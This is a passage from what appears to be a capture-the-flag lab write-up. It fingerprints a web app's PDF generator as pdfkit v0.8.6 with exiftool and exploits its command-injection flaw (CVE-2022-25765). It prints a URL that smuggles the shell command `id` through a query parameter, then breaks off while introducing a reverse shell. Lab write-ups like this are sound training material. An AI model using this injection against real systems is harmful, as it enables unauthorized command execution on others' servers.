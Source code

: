 I entered my VPN network interface IP address `http://10.10.14.4`, and what do you know, it returned a PDF of my web page.
![Untitled]({{ image_path }}/precious/img18.png)

# Initial Access
Now that I had something new to work with, I wanted to know more about the generated file. I downloaded the file and ran a common file forensics tool called `exiftool` on it.
```
$ exiftool fo99la37ukytqmhduq8elzoqbudbyvu9.pdf

ExifTool Version Number         : 12.52
File Name                       : fo99la37ukytqmhduq8elzoqbudbyvu9.pdf
Directory                       : .
File Size                       : 36 kB
File Modification Date/Time     : 2023:02:20 16:39:42-08:00
File Access Date/Time           : 2023:02:20 16:40:16-08:00
File Inode Change Date/Time     : 2023:02:20 16:39:42-08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
The "Creator" line sparked my eye due to the version number, which is helpful when searching for valid exploits. My first instinct was to search for `pdfkit v0.8.6 exploits`. And just like that, the first search return is an exploit titled [Command Injection in pdfkit | CVE-2022-25765](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiAruHj8caBAxWBJkQIHa6cD8gQFnoECA0QAQ&url=https%3A%2F%2Fsecurity.snyk.io%2Fvuln%2FSNYK-RUBY-PDFKIT-2869795&usg=AOvVaw3XwwN6FWqgJj89L6M70wWi&opi=89978449).

After reading the exploit's documentation, this version of `pdfkit` seems to feature a vulnerability where the URL was not properly sanitized. This allows for a URL parameter to be "included in the command that PDFKit executes to render the PDF", as per the blog post.

So I constructed the following URL where I appended my own parameter named `bruh` denoted by the URL encoding `?bruh=%20`, and assigned it a value, which would be the shell commanded I wanted to execute, denoted by `` `id` ``.

I had to do was establish a parameter containing a URL encoded character, and specify the shell command I wanted it to execute: 
```
http://10.10.14.6?bruh=%20`id`
```
![Untitled]({{ image_path }}/precious/img19.png)

And boom, I was returned a pdf that displayed my user id. Since I confirmed that this code injection exploit was valid, I wanted to establish a reverse shell. There are a variety of ways to do this depending on what technologies are on the machine, but a quick and usually available way is using Python. When establishing a reverse shell, you want a listener on your attacking machine, and for your victim machine to execute something that establishes a remote connection to you, the attacking machine.
